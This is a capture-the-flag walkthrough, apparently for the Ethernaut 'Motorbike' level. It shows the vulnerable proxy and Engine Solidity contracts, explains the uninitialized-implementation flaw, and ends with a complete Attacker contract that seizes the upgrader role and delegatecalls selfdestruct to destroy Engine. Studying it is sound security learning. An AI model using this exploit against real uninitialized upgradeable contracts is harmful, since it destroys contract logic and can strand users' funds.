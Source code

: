 # Motorbike

```
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Goal

The goal of this challenge is to ```selfdestruc``` the ```Engine``` contract.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

Again the contracts of this challenge are following the Proxy Upgrade Pattern, more specifically the UUPS pattern. The proxy contract in our case ```Motorbike``` acts as a storage layer so any state modification in the implementation contract (in our case ```Engin```) normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

Before we even start with the hack, we must first find the address of the ```Engine``` contract. One way to do that is after we deploy a new level instance, take note of the instance address using the web developer console on the Ethernaut page, after that using MetaMask we can open the transaction that created the level instance in a block explorer (Etherscan), when we are in the transaction details page we need to switch to the State tab and search for the contract instance address that we previously noted. We need to show the details of this address (Click to see more), and look for the value that is stored in the ```0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``` storage address. In here in the ```After``` field we will find the address of the ```Engine``` contract.
Next is to remove all the unnecessary 0's from the address and load the ```Engine``` contract at this address inside Remix.

The issue in this CTF is that the implementation contract ```Engine``` was left uninitialized, which means everyone can call the ```initialize``` function inside it and set ```upgrader``` and ```horsePower``` variables to the desired values.

After the ```upgrader``` variable is set to hold the value of the ```Attacker``` contract address, we can call ```upgradeToAndCall``` function insde ```Engine``` and it will ```delegatecall``` to the ```Attacker``` contract calling the ```selfdestruct``` function inside it. Altthough the ```selfdestruct``` will be called inside ```Attacker```, since we are delegating the call from the ```Engine``` contract it is the ```Engine``` contract that will be deleted.

To exploit the contract we need to:

1. create IEngine interface and define all the functions that we are going to use from ```Engine```
2. create Attacker contract
3. create attack(IEngine engine) external function inside the Attacker contract, passing in the Engine contract as function argument, and inside this function we will:
  <ul>
  <li>call initilize function from Engine in order to set the upgrader variable to the address of the Attacker contract</li>
  <li>call upgradeToAndCall function with the address of the Attacker contract as argument for newImplementation parameter and the abi encoded string of the kill function (inside which we'll call selfdestruct) as an argument for the data parameter</li>
  </ul>
3. create kill() function inside Attacker contract, and inside it call selfdestruct, because Engine contract will delegatecall to the Attacker contract calling this kill function, selfdestruct will cause the Engine contract to be deleted instead of the Attacker one.

## Attacker contract code

```
interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}

contract Attacker {
    function attack(IEngine engine) external {
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSelector(this.kill.selector));
    }

    function kill() public {
        selfdestruct(payable(address(this)));
    }
}
```